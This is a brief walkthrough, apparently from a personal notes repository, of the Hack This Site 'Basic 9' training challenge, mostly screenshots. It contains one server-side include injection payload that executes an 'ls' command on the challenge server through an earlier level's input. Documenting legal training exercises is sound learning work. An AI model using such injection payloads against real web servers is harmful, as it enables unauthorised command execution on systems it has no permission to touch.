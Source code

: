 # **HTS Basic 9**
![](https://i.imgur.com/kBk9yeO.png)

So, let's go back to inject the level8.

![](https://i.imgur.com/bBzZTK4.png)

It seems a Command injection.

```<!--#exec cmd="ls /var/www/hackthissite.org/html/missions/basic/9/"-->```

![](https://i.imgur.com/Vem0hOH.png)

![](https://i.imgur.com/DMnCs9U.png)

![](https://i.imgur.com/OzdT53c.png)

Fin.








